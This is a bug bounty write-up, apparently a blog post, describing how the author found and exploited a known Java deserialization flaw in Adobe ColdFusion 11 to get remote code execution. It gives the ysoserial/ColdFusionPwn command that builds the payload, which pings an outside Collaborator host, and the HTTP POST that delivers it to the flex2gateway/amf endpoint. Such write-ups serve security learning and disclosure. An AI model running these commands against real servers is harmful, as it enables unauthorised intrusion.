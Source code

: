 ```yaml
---
title: "Basic recon to RCE"
date: 2021-05-02T12:00:00+01:00
description: Basic recon to RCE
---
```


![](banner.png)

Recently on a BugBounty program I came across my first RCE, discovered and exploited rather quickly on a solution with a vulnerability that I don't master at all : Java Deserialization

## Recon
Currently improving my recognition tool [AutoRecon](https://github.com/JoshuaMart/AutoRecon), originally intended to help me with subdomain enumeration, I also want to perform some recognition tasks that are quite annoying when you have to do it many times.

The scope in question is like `*.domain.tld`, after enumerating subdomains, I wanted to test new tools, in this case [Gau](https://github.com/lc/gau) which allows to retrieve URLs known through several sources. That's when I was asked to see a URL with the extension `.cfm`, which I don't know at all:

![RCE_GAU](RCE_GAU.png)

A quick search will find that this extension corresponds to `ColdFusion Markup Language`

An access on the URL actually allowed me to confirm that it is indeed the Adobe ColdFusion 11 application that is used, but the design seemed quite old ... interesting.

## Search for known vulnerabilities
A quick search on ExploitDB allowed me to find an exploit:

![RCE_ExploitDB](RCE_ExploitDB.png)

Unfortunately this one wasn't very detailed, after several researches I found an article that details the vulnerability and its exploitation [Exploiting Adobe Coldfusion](https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html).

To make a long story short, the exploit is possible through a Java deserialization on the `flex2gateway/amf` endpoint, after verification, it was available and a GET request returned a simple blank page.

## Exploitation
According to the article, exploitation therefore requires only two things:
- [Ysoserial](https://github.com/frohoff/ysoserial) for Java deserialization
- [ColdFusionPWn](https://github.com/frohoff/ysoserial) for exploitation

Then we can finally create our payload, in the following example, if the poc is successful, I will receive a ping on my burp collaborator, the output of the order is recorded in the file `poc.ser` :
`java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'ping {your_collaborator}.burpcollaborator.net' poc.ser`

So all that's left to do is to send it as a POST on the endpoint `flex2gateway/amf` :

`http post https://xyz.domain.tld/flex2gateway/amf Content-Type:application/x-amf < poc.ser`

And then I got the ping on my burp collaborator:

![RCE_PoC](RCE_PoC.png)

## Conclusion

This is my first RCE found on a private program, really interesting because it exploits a known vulnerability with known exploits, but rather than launching the first exploit I could get my hands on, I preferred to document myself and look for something that would give me the impression to have a better mastery of the exploit even if it was wasting my time.

In fact, I discovered the vulnerability late one night, before exploiting it only the next day because I didn't want to do anything harmful since it's production.

Nevertheless, [Gau](https://github.com/lc/gau) is really a must-have and if you don't count the time spent reading / understanding the vulnerability, the research and exploitation took me less than 30min.
